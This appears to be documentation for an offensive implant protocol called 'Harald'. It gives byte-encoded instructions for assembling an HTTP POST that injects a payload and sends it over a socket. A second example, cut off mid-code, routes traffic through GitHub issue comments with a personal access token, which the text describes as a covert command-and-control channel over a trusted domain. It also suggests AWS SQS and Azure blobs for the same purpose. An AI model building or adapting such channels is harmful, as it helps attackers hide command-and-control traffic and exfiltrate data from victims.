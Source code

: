 ```c
H_F_SPLIT, 0x00, 0x00, 0x00, 0xFF,                         // Splits the Payload
H_F_APPEND, 0x00, 0x00, 0x00, 0x46,                           // Appends...
  'P', 'O', 'S', 'T', ' ', '/', ' ',                              // POST / 
  'H', 'T', 'T', 'P', '/', '1', '.', '1', '\r', '\n',             // HTTP/1.1
  'H', 'o', 's', 't', ':', ' ',                                   // Host: 
    'd', 'o', 'm', 'a', 'i', 'n', '.', 'c', 'o', 'm', '\r', '\n', // domain.com
  'C', 'o', 'n', 'n', 'e', 'c', 't', 'i', 'o', 'n', ':', ' ',     // Connection: 
    'c', 'l', 'o', 's', 'e', '\r', '\n',                          // close
  'C', 'o', 'n', 't', 'e', 'n', 't', '-',                         // Content-
    'L', 'e', 'n', 'g', 't', 'h', ':', ' ',                       // Length: 
H_F_COMPUTE_FRAG_LENGTH,                                 // Next Fragment's size
H_F_ENCODE_STR, H_PAY_END_PAYLOAD, H_PAY_FRAGMENT_SIZE, 'u',  // FragSize encode
H_F_INJECT, H_REG_RET,                   // Inject the Fragment Size encoded str
H_F_APPEND, 0x00, 0x00, 0x00, 0x04, '\r', '\n', '\r', '\n', // Append Body begin
H_F_PAYLOAD_INJECT,                                        // Inject the Payload
H_F_SOCK_INIT, 0x01, 0x01, 0x7F, 0x00, 0x00, 0x01, 0x04, 0xD2,    // Init Socket
H_F_SEND,                                    // Send the Payload over the socket
H_F_CLOSE                                        // Close the socket and cleanup 
```

1. Split (0x03) the payload in blocks of up to 0x000000FF Bytes.
2. Append (0x01) the next 0x00000046 Bytes. (POST / HTTP/1.1\r\nHost: domain...)
3. Calculate fragment length (0x0D).
4. Encode (0x0A) the fragment size information (uint) from the payload as a
   string.
5. Inject (0x09) the information in the return (H_REG_RET) registry.
6. Append (0x01) the next 0x00000004 Bytes. (\r\n\r\n)
7. Inject the payload (0x04)
8. Initialize the Socket (0x05) using SSL/TLS, to connect to a TCP socket to the
   IP address defined in the following 4 Bytes (0x7F000001), and to the port
   defined in the following 2 Bytes (0x04D2).
9. Send (0x06) the payload.
10. Close (0x08) the connection.


## HTTPS Example Using the GitHub API

The following example follows the same procedures as the previous one. However,
instead of just sending the payload as the body, the Protocol will instruct
Harald to set up some headers and structure the body so it can communicate with
the GitHub API to publish comments in a private repository's issue. 

This kind of communication may help an attacker to create a communication
channel with the C2 server using a trusted domain, like *.github.com. This very
same example could be extrapolated to use AWS resources (like SQS queues under
sqs.<region>.amazonaws.com), Azure resources (like blobs under
<storage_account_name>.blob.core.windows.net) and so on. 

This example is a good reference for those communications that require a
STRUCTURED_FORMAT (JSON) + APPLICATION-LAYER_PROTOL (HTTPS) + PROTOCOL (TCP).


```c
H_F_SPLIT, 0x00, 0x00, 0x00, 0xFF,
H_F_APPEND, 0x00, 0x00, 0x01, 0x85, 'P','O','S','T',' ',
'/','r','e','p','o','s','/','YOUR_GH_USER','/','YOUR_GH_REPO',
'/','i','s','s','u','e','s','/','ISSUE_NUMBER',
'/','c','o','m','m','e','n','t','s',' ',
'H','T','T','P','/','1','.','1','\r','\n', 'H','o','s','t',':','
','a','p','i','.','g','i','t','h','u','b','.','c','o','m','\r','\n',
'A','u','t','h','o','r','i','z','a','t','i','o','n',':',' '
,'B','e','a','r','e','r',' ','g','i','t','h','u','b','_','p','a','t','_',
'YOUR_GH_PAT','\r','\n',
'X','-','G','i','t','H','u','b','-',
'A','p','i','-','V','e','r','s','i','o','n',':','
', '2','0','2','2','-','1','1','-','2','8','\r','\n',
```